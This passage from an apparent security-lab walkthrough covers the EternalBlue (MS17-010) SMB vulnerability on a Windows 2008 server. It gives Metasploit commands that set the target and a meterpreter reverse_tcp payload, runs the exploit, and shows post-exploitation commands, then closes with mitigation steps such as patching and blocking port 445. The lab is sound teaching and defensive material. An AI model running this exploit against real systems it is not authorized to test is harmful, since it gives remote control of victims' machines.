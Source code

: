 ![Eternalblue Metasploit Options](image-15.png)

3.4 Configure the exploit with the target IP and payload options.  
```bash
set RHOST <Windows_IP>
set PAYLOAD windows/x64/meterpreter/reverse_tcp
```

![Configuring Eternalblue exploit](image-11.png)

3.5 Execute the exploit.  
```bash
exploit
```
![Success](image-16.png)

 >**_NOTE:_** If the exploit is successful, you will see a Meterpreter session opened. This indicates that you have successfully exploited the vulnerability and gained access to the target system. The Win2008 server is now compromised. The first time you run the exploit, it may take a few minutes to run and it may even crash the Windows 2008 server. Restart the Windows 2008 server and try again.

---

### 🛡️ Step 4: Analyzing the Exploit

**Objective:** Analyze the exploit result and understand the attack vector.

**Steps:**

4.1 Once the exploit is successful, a Meterpreter session will be opened.  
4.2 Use Meterpreter commands to gather information from the compromised system.  
```bash
sysinfo
getuid
```

![Running commands on compromised server](image-17.png)

4.3 Identify the attack vector used. 

In this case, the attack vector is the SMB service on port 445, exploited via the **EternalBlue** vulnerability.

---

### ⚔️ Step 5: Mitigating the Attack

**Objective:** Implement strategies to mitigate the vulnerability.

**Steps:**

5.1 Patch the vulnerability by updating the Windows system with the latest security patches. Specifically, apply the patch for MS17-010.  
5.2 Configure the firewall to block unnecessary ports, including port 445, to prevent external access.  
5.3 Segment the network to restrict access to critical systems and limit the spread of malware.  
5.4 Deploy an Intrusion Detection System (IDS) to monitor network traffic for suspicious activity and potential exploits.  
5.5 Perform regular security audits and vulnerability assessments to identify and patch weaknesses.

---
